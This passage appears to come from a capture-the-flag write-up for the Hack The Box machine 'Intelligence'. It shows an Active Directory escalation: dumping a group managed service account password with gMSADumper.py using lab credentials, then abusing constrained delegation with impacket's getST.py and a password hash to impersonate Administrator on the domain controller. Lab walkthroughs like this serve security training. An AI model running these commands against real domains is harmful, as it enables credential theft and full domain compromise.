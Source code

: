 ![](/assets/img/intelligence/12.png)


`ted.graves` is part of group `ITSUPPORT`, and this group can read a password from GMSA for svc_int. `svc_int` has capability allowed to delegate the domain controller, meaning that a node with this privilege can impersonate any domain principal (including Domain Admins) to the specific service on the target host. 

dump GMSA(group managed service accounts) password, you can clone this [repo](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

```bash
python gMSADumper.py -u 'ted.graves' -p 'Mr.Teddy' -d 'intelligence.htb'
```

![](/assets/img/intelligence/13.png)


and now we can request a TGT for administrator user using `getST.py` from impacket with following command:

```bash
getST.py -spn www/dc.intelligence.htb -impersonate Administrator  intelligence.htb/svc_int -hashes :67065141d298d67a17ee8626476b20f9 -dc-ip 10.10.10.248
```
